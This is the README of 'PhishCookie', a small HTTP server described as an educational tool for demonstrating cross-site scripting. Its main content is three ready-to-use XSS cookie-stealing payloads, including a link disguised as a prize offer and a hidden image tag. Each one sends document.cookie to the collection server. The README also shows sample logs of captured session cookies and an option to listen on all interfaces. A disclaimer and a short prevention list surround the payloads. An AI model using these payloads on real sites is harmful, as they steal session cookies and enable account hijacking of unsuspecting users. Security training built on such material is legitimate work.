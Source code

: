 # PhishCookie



PhishCookie is an educational tool designed to demonstrate how cross-site scripting (XSS) vulnerabilities can be exploited. It creates a simple HTTP server that can be used in controlled environments to showcase cookie theft and other XSS attack vectors.



## ⚠️ IMPORTANT DISCLAIMER

**This tool is created STRICTLY for:**
- Educational purposes
- Authorized security testing
- Controlled lab environments
- Cybersecurity training

**NEVER use this tool against any website or user without explicit permission. Unauthorized use is illegal and unethical.**

## 🔍 Overview

PhishCookie simulates how malicious actors exploit XSS vulnerabilities to steal cookies and other sensitive information. By understanding these techniques, developers and security professionals can better protect their applications.

![How XSS Works](https://github.com/Sergeb250/PhishCookie/blob/551c33af67d04ff6a86424b97ea3d17f125f7436/images/Screenshot%20(26).png)

## ✨ Features

- **Cookie Logger**: Captures and displays cookies sent via XSS payloads
- **Request Inspector**: Analyzes all incoming request data
- **Payload Generator**: Creates ready-to-use XSS payloads for testing
- **Simple Web Interface**: View logged data through an intuitive dashboard
- **Educational Resources**: Includes documentation on XSS prevention

## 📋 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/PhishCookie.git

# Navigate to the directory
cd PhishCookie

# No additional dependencies required!
```

## 🚀 Quick Start

1. Start the PhishCookie server:

```bash
python phish_cookie.py
```

2. By default, the server runs on port 8080:

```
[*] PhishCookie server started on port 8080
[*] Waiting for incoming XSS payloads...
```

![Server Running](https://placeholder-for-screenshot.png)

## 💉 XSS Payload Examples

### Basic Cookie Stealer

```html
<script>
  fetch('http://localhost:8080/steal?cookie=' + encodeURIComponent(document.cookie))
    .then(response => console.log('Cookie sent'))
    .catch(error => console.error('Error:', error));
</script>
```

### Clickjacking Attack

```html
<a href="javascript:void(document.location='http://localhost:8080/steal?cookie='+document.cookie)">
  Click here to claim your prize! 🎁
</a>
```

### Image-Based Stealer (No JS Console Visibility)

```html
<img src="x" onerror="this.src='http://localhost:8080/steal?cookie='+document.cookie" style="display:none">
```

![XSS Attack Flow](https://placeholder-for-attack-flow.png)

## 📊 Understanding the Output

When a victim triggers an XSS payload, PhishCookie logs detailed information:

```
[+] XSS Payload Triggered! [2025-04-23 14:32:12]
[+] Source IP: 192.168.1.105
[+] User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
[+] Cookies Captured: 
    - sessionid=a68d42f0e8b11d3e7955
    - user_pref=dark_mode=true
    - _ga=GA1.2.1234567890.1234567890
[+] Referrer: https://vulnerable-site.example/login
```

## 🛡️ Prevention Techniques

PhishCookie helps demonstrate why these security measures are essential:

1. **Content Security Policy (CSP)**
2. **HttpOnly and Secure Cookie Flags**
3. **Input Validation & Output Encoding**
4. **X-XSS-Protection Headers**
5. **Modern Framework Protections**

## 🧪 Testing Scenarios

- **Self-XSS Demonstration**: Test on your own pages to understand impact
- **CTF Practice**: Use in cybersecurity competitions
- **Security Awareness**: Train team members on XSS risks
- **Penetration Testing**: During authorized security assessments

![Testing Scenario](https://placeholder-for-testing.png)

## 🔧 Advanced Configuration

PhishCookie supports several command-line arguments:

```bash
python phish_cookie.py --port 9090 --interface 0.0.0.0 --log-file cookies.log
```

| Option | Description |
|--------|-------------|
| `--port` | Server listening port (default: 8080) |
| `--interface` | Binding interface (default: localhost) |
| `--log-file` | Save captured data to file |
| `--web-interface` | Enable web dashboard (default: disabled) |

## 📚 Educational Resources

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [PortSwigger XSS Learning Materials](https://portswigger.net/web-security/cross-site-scripting)
- [Mozilla Developer Network - Web Security](https://developer.mozilla.org/en-US/docs/Web/Security)

## 🤝 Contributing

Contributions that improve the educational value of this tool are welcome:

1. Fork the repository
2. Create your feature branch (`git checkout -b feature/educational-improvement`)
3. Commit your changes (`git commit -m 'Add new educational content'`)
4. Push to the branch (`git push origin feature/educational-improvement`)
5. Open a Pull Request

## 📜 License

Distributed under the MIT License. See `LICENSE` for more information.

## 📞 Contact
Project Link: [https://github.com/Sergeb250/PhishCookie](https://github.com/Sergeb250/PhishCookie)
